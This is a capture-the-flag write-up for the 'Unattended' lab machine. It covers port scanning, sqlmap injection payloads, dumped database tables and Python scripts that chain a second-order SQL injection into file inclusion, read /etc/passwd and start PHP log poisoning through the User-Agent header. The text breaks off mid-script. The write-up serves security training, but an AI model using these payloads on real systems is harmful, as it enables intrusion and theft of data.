









---
search:
  exclude: true
---
# Unattended Writeup

## Introduction :

Unattended is a Medium-Hard linux box released back in April 2019.

## **Part 1 : Initial Enumeration**

As always we begin our Enumeration using **Nmap** to enumerate opened ports. We will be using the flags **-sC** for default scripts and **-sV** to enumerate versions.
    
    
    
      [ 10.10.14.47/23 ] [ /dev/pts/5 ] [~/_HTB/Unattended]
      → ping 10.10.10.126 -c1
      PING 10.10.10.126 (10.10.10.126) 56(84) bytes of data.
      64 bytes from 10.10.10.126: icmp_seq=1 ttl=63 time=94.7 ms
    
      --- 10.10.10.126 ping statistics ---
      1 packets transmitted, 1 received, 0% packet loss, time 0ms
      rtt min/avg/max/mdev = 94.701/94.701/94.701/0.000 ms
    
      [ 10.10.14.47/23 ] [ /dev/pts/5 ] [~/_HTB/Unattended]
      →  sudo nmap -vvv -sTU -p- 10.10.10.126 --max-retries 0 -Pn --min-rate=1000 | grep Discovered
      [sudo] password for nothing:
      Discovered open port 80/tcp on 10.10.10.126
      Discovered open port 443/tcp on 10.10.10.126
    
      [ 10.10.14.47/23 ] [ /dev/pts/5 ] [~/_HTB/Unattended]
      → nmap -sCV -p80,443 10.10.10.126
      Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-18 13:59 BST
      Nmap scan report for 10.10.10.126
      Host is up (0.12s latency).
    
      PORT    STATE SERVICE  VERSION
      80/tcp  open  http     nginx 1.10.3
      |_http-server-header: nginx/1.10.3
      |_http-title: Site doesn't have a title (text/html).
      443/tcp open  ssl/http nginx 1.10.3
      |_http-server-header: nginx/1.10.3
      |_http-title: Site doesn't have a title (text/html).
      | ssl-cert: Subject: commonName=www.nestedflanders.htb/organizationName=Unattended ltd/stateOrProvinceName=IT/countryName=IT
      | Not valid before: 2018-12-19T09:43:58
      |_Not valid after:  2021-09-13T09:43:58
    
      Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
      Nmap done: 1 IP address (1 host up) scanned in 22.79 seconds
    
    
    
      [ 10.10.14.8/23 ] [ /dev/pts/5 ] [~/.oh-my-zsh/themes]
      → whoami
      root
    
      [ 10.10.14.8/23 ] [ /dev/pts/5 ] [~/.oh-my-zsh/themes]
      → echo '10.10.10.126 www.nestedflanders.htb' >> /etc/hosts
    
      [ 10.10.14.8/23 ] [ /dev/pts/5 ] [~/.oh-my-zsh/themes]
      → cat /etc/hosts
      127.0.0.1       localhost
      127.0.1.1       nowhere
    
      # The following lines are desirable for IPv6 capable hosts
      ::1     localhost ip6-localhost ip6-loopback
      ff02::1 ip6-allnodes
      ff02::2 ip6-allrouters
      10.10.10.126 www.nestedflanders.htb
    
    

## **Part 2 : Getting User Access**

Our nmap scan picked up that this is a web based box, so let's investiate the following :
    
    
      http://10.10.10.126/
      http://www.nestedflanders.htb/
      https://www.nestedflanders.htb/
    

` 

So here we are greeted by a default page on https://www.nestedflanders.htb , not too interesting so we enumerate it further using dirsearch:
    
    
    
      [ 10.10.14.8/23 ] [ /dev/pts/4 ] [~/Desktop/Tools]
      → dirsearch -u https://www.nestedflanders.htb/ -t 50 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e txt,php,html,xml -x 503
      git clone https://github.com/maurosoria/dirsearch.git
      dirsearch -u  -e  -t 50 -x 500
    
       _|. _ _  _  _  _ _|_    v0.3.9
      (_||| _) (/_(_|| (_| )
    
      Extensions: txt, php, html, xml | HTTP method: get | Threads: 50 | Wordlist size: 220521
    
      Error Log: /home/nothing/Desktop/Tools/dirsearch/logs/errors-20-04-18_14-18-55.log
    
      Target: https://www.nestedflanders.htb/
    
    

This is a https service so as you can expect, it is painfully slow to enumerate, but once it is finished we find the /dev directory:

Looking at index.php we see that we have pages that are being included with the "id" parameter:

At first glance there is nothing that seems dynamic other than the id parameter that includes the pages, So we run sqlmap on the page to see if we can find a SQL injection in the id parameter: 
    
    
      [ 10.10.14.69/23 ] [ /dev/pts/3 ] [~/_HTB/Unattended]
      → sqlmap -u https://www.nestedflanders.htb/index.php\?id\=587 -p id
              ___
             __H__
       ___ ___[.]_____ ___ ___  {1.4.3#stable}
      |_ -| . [']     | .'| . |
      |___|_  [']_|_|_|__,|  _|
            |_|V...       |_|   http://sqlmap.org
    
      [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
      [*] starting @ 20:56:32 /2020-04-19/
    
      [...]
    
      GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] y
      sqlmap identified the following injection point(s) with a total of 298 HTTP(s) requests:
      ---
      Parameter: id (GET)
          Type: boolean-based blind
          Title: AND boolean-based blind - WHERE or HAVING clause
          Payload: id=587' AND 6741=6741 AND 'uqwa'='uqwa
    
          Type: time-based blind
          Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
          Payload: id=587' AND (SELECT 1303 FROM (SELECT(SLEEP(5)))AQHN) AND 'Wunt'='Wunt
      ---
      [20:59:04] [INFO] the back-end DBMS is MySQL
      back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
      [20:59:04] [INFO] fetched data logged to text files under '/home/nothing/.sqlmap/output/www.nestedflanders.htb'
    
      [*] ending @ 20:59:04 /2020-04-19/
    
    

So it looks like the id parameter is injectable, so we check the current database using the appropriate flag: 

    
    
      [ 10.10.14.69/23 ] [ /dev/pts/3 ] [~/_HTB/Unattended]
      → sqlmap -u https://www.nestedflanders.htb/index.php\?id\=587 --current-db
              ___
             __H__
       ___ ___[(]_____ ___ ___  {1.4.3#stable}
      |_ -| . [.]     | .'| . |
      |___|_  [)]_|_|_|__,|  _|
            |_|V...       |_|   http://sqlmap.org
    
      [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
      [*] starting @ 21:00:41 /2020-04-19/
    
      [21:00:42] [INFO] resuming back-end DBMS 'mysql'
      [21:00:42] [INFO] testing connection to the target URL
      you have not declared cookie(s), while server wants to set its own ('PHPSESSID=cbr1emf27pb...otrihaacu7'). Do you want to use those [Y/n] y
      sqlmap resumed the following injection point(s) from stored session:
      ---
      Parameter: id (GET)
          Type: boolean-based blind
          Title: AND boolean-based blind - WHERE or HAVING clause
          Payload: id=587' AND 6741=6741 AND 'uqwa'='uqwa
    
          Type: time-based blind
          Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
          Payload: id=587' AND (SELECT 1303 FROM (SELECT(SLEEP(5)))AQHN) AND 'Wunt'='Wunt
      ---
      [21:00:44] [INFO] the back-end DBMS is MySQL
      back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
      [21:00:44] [INFO] fetching current database
      [21:00:44] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
      [21:00:44] [INFO] retrieved: neddy
      current database: 'neddy'
      [21:00:55] [INFO] fetched data logged to text files under '/home/nothing/.sqlmap/output/www.nestedflanders.htb'
    
      [*] ending @ 21:00:55 /2020-04-19/
    

Now that we know that there is a database named "neddy" we can enumerate it's tables: 
    
    
      [ 10.10.14.69/23 ] [ /dev/pts/3 ] [~/_HTB/Unattended]
      → sqlmap -u https://www.nestedflanders.htb/index.php\?id\=587 --tables -D neddy
    
    

Which is atrociously slow so we use additional threads to speed it up : 
    
    
      [ 10.10.14.69/23 ] [ /dev/pts/3 ] [~/_HTB/Unattended]
      → sqlmap -u https://www.nestedflanders.htb/index.php\?id\=587 --tables -D neddy --threads 10
              ___
             __H__
       ___ ___[(]_____ ___ ___  {1.4.3#stable}
      |_ -| . [(]     | .'| . |
      |___|_  [.]_|_|_|__,|  _|
            |_|V...       |_|   http://sqlmap.org
    
      [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
      [*] starting @ 21:02:26 /2020-04-19/
    
      [...]
    
      21:03:29] [INFO] retrieved: orders
      [21:03:29] [INFO] retrieving the length of query output
      [21:03:29] [INFO] retrieved: 8
      [21:03:37] [INFO] retrieved: payments
      [21:03:37] [INFO] retrieving the length of query output
      [21:03:37] [INFO] retrieved: 12
      [21:03:50] [INFO] retrieved: productlines
      [21:03:50] [INFO] retrieving the length of query output
      [21:03:50] [INFO] retrieved: 8
      [21:03:58] [INFO] retrieved: products
      Database: neddy
      [11 tables]
      +--------------+
      | config       |
      | customers    |
      | employees    |
      | filepath     |
      | idname       |
      | offices      |
      | orderdetails |
      | orders       |
      | payments     |
      | productlines |
      | products     |
      +--------------+
    
      [21:03:58] [INFO] fetched data logged to text files under '/home/nothing/.sqlmap/output/www.nestedflanders.htb'
    
      [*] ending @ 21:03:58 /2020-04-19/
    
    

So here we have 11 tables, some of which contain an absurd number of rows which take forever to dump everything. Increasing the threads to run this command is vital. So the idea here is to focus on the config , filepath and idname tables which contains most of the elements we need to continue:
    
    
      [ 10.10.14.69/23 ] [ /dev/pts/3 ] [~/_HTB/Unattended]
      → sqlmap -u https://www.nestedflanders.htb/index.php\?id\=587 -T config,filepath,idname -D neddy --technique B  --dump --threads 10
              ___
             __H__
       ___ ___[)]_____ ___ ___  {1.4.3#stable}
      |_ -| . [']     | .'| . |
      |___|_  [)]_|_|_|__,|  _|
            |_|V...       |_|   http://sqlmap.org
    
      [!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program
    
      [*] starting @ 21:06:33 /2020-04-19/
    
      [21:06:33] [INFO] resuming back-end DBMS 'mysql'
      [21:06:33] [INFO] testing connection to the target URL
      you have not declared cookie(s), while server wants to set its own ('PHPSESSID=o24egt1sggh...9696egals7'). Do you want to use those [Y/n] y
      sqlmap resumed the following injection point(s) from stored session:
      ---
      Parameter: id (GET)
          Type: boolean-based blind
          Title: AND boolean-based blind - WHERE or HAVING clause
          Payload: id=587' AND 6741=6741 AND 'uqwa'='uqwa
      ---
      [21:06:34] [INFO] the back-end DBMS is MySQL
      back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
      [21:06:34] [INFO] fetching columns for table 'config' in database 'neddy'
    
      [...]
    
      Database: neddy
      Table: config
      [52 entries]
      +------+-------------------------+--------------------------------------------------------------------------+
      | id   | option_name             | option_value                                                             |
      +------+-------------------------+--------------------------------------------------------------------------+
      | 54   | offline                 | 0                                                                        |
      | 55   | offline_message         | Site offline, please come back later                                     |
      | 56   | display_offline_message | 0                                                                        |
      | 57   | offline_image           |                                                                   |
      | 58   | sitename                | NestedFlanders                                                           |
      | 59   | editor                  | tinymce                                                                  |
      | 60   | captcha                 | 0                                                                        |
      | 61   | list_limit              | 20                                                                       |
      | 62   | access                  | 1                                                                        |
      | 63   | debug                   | 0                                                                        |
      | 64   | debug_lang              | 0                                                                        |
      | 65   | dbtype                  | mysqli                                                                   |
      | 66   | host                    | localhost                                                                |
      | 67   | live_site               |                                                                   |
      | 68   | gzip                    | 0                                                                        |
      | 69   | error_reporting         | default                                                                  |
      | 70   | ftp_host                | 127.0.0.1                                                                |
      | 71   | ftp_port                | 21                                                                       |
      | 72   | ftp_user                | flanders                                                                 |
      | 73   | ftp_pass                | 0e1aff658d8614fd0eac6705bb69fb684f6790299e4cf01e1b90b1a287a94ffcde451466 |
      | 74   | ftp_root                | /                                                                        |
      | 75   | ftp_enable              | 1                                                                        |
      | 76   | offset                  | UTC                                                                      |
      | 77   | mailonline              | 1                                                                        |
      | 78   | mailer                  | mail                                                                     |
      | 79   | mailfrom                | nested@nestedflanders.htb                                                |
      | 80   | fromname                | Neddy                                                                    |
      | 81   | sendmail                | /usr/sbin/sendmail                                                       |
      | 82   | smtpauth                | 0                                                                        |
      | 83   | smtpuser                |                                                                   |
      | 84   | smtppass                |                                                                   |
      | 85   | smtppass                |                                                                   |
      | 86   | checkrelease            | /home/guly/checkbase.pl;/home/guly/checkplugins.pl;                      |
      | 87   | smtphost                | localhost                                                                |
      | 88   | smtpsecure              | none                                                                     |
      | 89   | smtpport                | 25                                                                       |
      | 90   | caching                 | 0                                                                        |
      | 91   | cache_handler           | file                                                                     |
      | 92   | cachetime               | 15                                                                       |
      | 93   | MetaDesc                |                                                                   |
      | 94   | MetaKeys                |                                                                   |
      | 95   | MetaTitle               | 1                                                                        |
      | 96   | MetaAuthor              | 1                                                                        |
      | 97   | MetaVersion             | 0                                                                        |
      | 98   | robots                  |                                                                   |
      | 99   | sef                     | 1                                                                        |
      | 100  | sef_rewrite             | 0                                                                        |
      | 101  | sef_suffix              | 0                                                                        |
      | 102  | unicodeslugs            | 0                                                                        |
      | 103  | feed_limit              | 10                                                                       |
      | 104  | lifetime                | 1                                                                        |
      | 105  | session_handler         | file                                                                     |
      +------+-------------------------+--------------------------------------------------------------------------+
    
      Database: neddy
      Table: filepath
      [3 entries]
      +---------+--------------------------------------+
      | name    | path                                 |
      +---------+--------------------------------------+
      | about   | 47c1ba4f7b1edf28ea0e2bb250717093.php |
      | contact | 0f710bba8d16303a415266af8bb52fcb.php |
      | main    | 787c75233b93aa5e45c3f85d130bfbe7.php |
      +---------+--------------------------------------+
    
      Database: neddy
      Table: idname
      [6 entries]
      +------+-------------+----------+
      | id   | name        | disabled |
      +------+-------------+----------+
      | 1    | main.php    | 1        |
      | 2    | about.php   | 1        |
      | 3    | contact.php | 1        |
      | 25   | main        | 0        |
      | 465  | about       | 0        |
      | 587  | contact     | 0        |
      +------+-------------+----------+
    
      [21:29:53] [INFO] table 'neddy.idname' dumped to CSV file '/home/nothing/.sqlmap/output/www.nestedflanders.htb/dump/neddy/idname.csv'
      [21:29:53] [INFO] fetched data logged to text files under '/home/nothing/.sqlmap/output/www.nestedflanders.htb'
    
      [*] ending @ 21:29:53 /2020-04-19/
    

As you can see it took more than 20 minutes. Sometimes you need a bit of patience, So in the "config" table we found potential ftp credentials, we also found "checkrelease" which hints us towards a perl script in /home/guly. Obviously we now know the username guly on this box. The table "idname" contains the mapping between ID and the GET request. The table "filepath" doesn't seem to contain anything interesting. 

At this point i got stuck and decided to go for [snowscan's]() solution which consists in making a python script in order to perform an injection on the ID name mapping SQL query, to then try to do the same on the filename mapping SQL query. Which results in achieving a [Second order SQL Injection.](https://haiderm.com/second-order-sql-injection-explained-with-example/) The goal of which is to end up creating a Local File Inclusion (LFI)

I have adapted snowscan's code to work under python3, working with beautifulsoup4, along with the appropriate print() statements.
    
    
      import readline
      import requests
      from bs4 import BeautifulSoup
    
      proxies = { "http":"http://127.0.0.1:8080", "https:":"https://127.0.0.1:8080" }
    
      while True:
              cmd=input("> ")
              payload=cmd
              payload=payload+"-- -"
              print(payload)
              r=requests.get("https://www.nestedflanders.htb/index.php?id=%s" % payload, proxies=proxies, verify=False)
              soup= BeautifulSoup(r.text, 'html.parser')
              print(soup.body)
    
    

The first thing is to check if we can display the contact page by returning contact instead of main against the "idname" table.
    
    
      [ 10.10.14.69/23 ] [ /dev/pts/3 ] [~/_HTB/Unattended]
      → python3 snowscan_rocks.py
      > 25' union select all 'contact'
      25' union select all 'contact'-- -
      /usr/lib/python3/dist-packages/urllib3/connectionpool.py:999: InsecureRequestWarning: Unverified HTTPS request is being made to host 'www.nestedflanders.htb'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
        warnings.warn(
      <****body> <****div class="container"> <****h1>Ne(ste)d Flanders' Portfolio <****/h1> <****/div> <****div class="container"> <****div center="" class="row"> <****div class="col-md-2"> <****a href="index.php?id=25" target="maifreim">main <****/a> <****/div> <****div class="col-md-2"> <****a href="index.php?id=465" target="maifreim">about <****/a> <****/div> <****div class="col-md-2"> <****a href="index.php?id=587" target="maifreim">contact <****/a> <****/div> <****/div>
      <****/div>
      <****div class="container"> <****div class="row">
      <****body class="container">
      Hello visitor,  
    
    
      thanks for getting in touch with us!  
    
      Unfortunately our server is under *heavy* attack and we disable almost every dynamic page.  
    
      Please come back later.
      <****/body>
      <****/div>
      <****/div>
      <****/body>
      >

So we have been successful in returning the contact page. The second step is to SQL Inject the name field returned instead of the actual name value in order to use the same UNION SELECT injection to return a filename that we choose, hence the intended LFI: 
    
    
      import readline
      import requests
      from bs4 import BeautifulSoup
    
      proxies = { "http":"http://127.0.0.1:8080", "https:":"https://127.0.0.1:8080" }
    
      while True:
              file = input("> ")
              payload = "25' union select all \"%s\" -- -" % ("invalid' union select all '" + file)
              r = requests.get("https://www.nestedflanders.htb/index.php?id=%s" % payload, proxies=proxies, verify=False)
              soup = BeautifulSoup(r.text, 'html.parser')
              print(soup.body)
    
    
    
      [ 10.10.14.69/23 ] [ /dev/pts/3 ] [~/_HTB/Unattended]
      → python3 snowscan_rocks_chapter_2.py
      > /etc/passwd
      /usr/lib/python3/dist-packages/urllib3/connectionpool.py:999: InsecureRequestWarning: Unverified HTTPS request is being made to host 'www.nestedflanders.htb'. Adding certificate verification is strongly advised. See: https://urllib3.readthedocs.io/en/latest/advanced-usage.html#ssl-warnings
        warnings.warn(
      
      
    
    
      
    
    # Ne(ste)d Flanders' Portfolio
    
    
      
    
    
      
    
    
      
    
    
      
    
    [main](index.php?id=25)
    
    [about](index.php?id=465)
    
    [contact](index.php?id=587)
    
     
      
    
     
      
    
    
      
    
    
      
      root:x:0:0:root:/root:/bin/bash
      daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
      bin:x:2:2:bin:/bin:/usr/sbin/nologin
      sys:x:3:3:sys:/dev:/usr/sbin/nologin
      sync:x:4:65534:sync:/bin:/bin/sync
      games:x:5:60:games:/usr/games:/usr/sbin/nologin
      man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
      lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
      mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
      news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
      uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
      proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
      www-data:x:33:33:www-data:/var/www:/bin/bash
      backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
      list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
      irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
      gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
      nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
      systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
      systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
      systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
      systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
      _apt:x:104:65534::/nonexistent:/bin/false
      messagebus:x:105:109::/var/run/dbus:/bin/false
      sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
      guly:x:1000:1000:guly,,,:/home/guly:/bin/bash
      mysql:x:107:112:MySQL Server,,,:/nonexistent:/bin/false
      
      
    
     
      
    
     
      
    

And the LFI was successful! we now know which users are on the box. The next step consists in getting Remote Code Execution (RCE) on the box. The hint here was to check the nginx access.log : 
    
    
    
      [...]
    
      10.10.14.69 - - [19/Apr/2020:16:44:33 -0400] "GET /index.php?id=25'%20union%20select%20all%20'contact'--%20- HTTP/1.1" 200 521 "-" "python-requests/2.23.0"
      10.10.14.69 - - [19/Apr/2020:16:45:14 -0400] "GET /index.php?id=25'%20union%20select%20all%20'contact'--%20- HTTP/1.1" 200 521 "-" "python-requests/2.23.0"
      10.10.14.69 - - [19/Apr/2020:16:46:37 -0400] "GET /index.php?id=25'%20union%20select%20all%20'contact'--%20- HTTP/1.1" 200 521 "-" "python-requests/2.23.0"
      10.10.14.69 - - [19/Apr/2020:17:06:50 -0400] "GET /index.php?id=25'%20union%20select%20all%20%22invalid'%20union%20select%20all%20'/etc/passwd%22%20--%20- HTTP/1.1" 200 925 "-" "python-requests/2.23.0"
    

Here we see that the User-Agent header is vulnerable, which potentially allows us to inject php code in the access logs, triggering it by making a request to the log file by using the LFI from the sql injection. So accordingly we modify the python script: 
    
    
      #!/usr/bin/python
    
      from bs4 import BeautifulSoup
      import re
      import readline
      import requests
    
      import urllib3
      urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
    
      proxies = { "http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080" }
    
      while True:
          cmd = input("> ")
          headers = { "User-Agent": " /var/log/nginx/access.log; %s'); ?>**END**" % cmd}
          r = requests.get("http://10.10.10.126/", headers=headers)
          file = "/var/log/nginx/access.log"
          payload = "25' union select all \"%s\" -- -" % ("invalid' union select all '" + file)
